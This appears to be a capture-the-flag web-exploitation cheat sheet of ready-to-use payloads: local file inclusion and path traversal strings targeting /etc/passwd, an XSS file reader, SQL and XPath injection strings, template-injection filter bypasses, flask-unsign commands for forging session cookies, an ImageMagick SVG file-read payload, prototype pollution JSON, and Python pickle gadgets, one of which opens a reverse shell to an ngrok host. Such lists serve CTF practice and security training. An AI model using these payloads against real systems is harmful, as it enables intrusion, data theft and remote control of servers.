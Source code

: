 ### Tricks 

- **Protocols**
  - `file:///etc/passwd`

- **Headers**
  - `X-Forwarded-Host`

### Local File Inclution
  - `/robots.txt`
  - `/.git`
  - `/sitemap.xml`
  - `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
  - `?file='.system("cat /flag*").'`
  - `/../../../../../../proc/self/environ`
  - `/_nuxt/@fs/flag.txt`
  
### Path traversal
  - `%2e%2e/` -> `../`
  - `%2e%2e%2f` -> `../`
  - `..%2f` -> `../`

### XSS

  - **LFI** read file
```javascript
<script>
  x = new XMLHttpRequest;
  x.onload=function() {
    document.write(this.responseText)
  }; 
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>;
````

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

- **RCE**
```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

print(base64.b64encode(pickle.dumps(DillPickle())).decode())
```

- **Get shell**
```python
class RCE(object):
  def __reduce__(self):
    return (os.system,('''python2 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.jp.ngrok.io",13180));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

p = base64.b64encode(pickle.dumps(RCE())).decode()
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

### Prototype pollution

- **Lodash**
  - `{"constructor": {"prototype": {"admin": True}}}`
  - `{"__proto__": {"name": "user", "password": "pass", "admin": True}}`
  
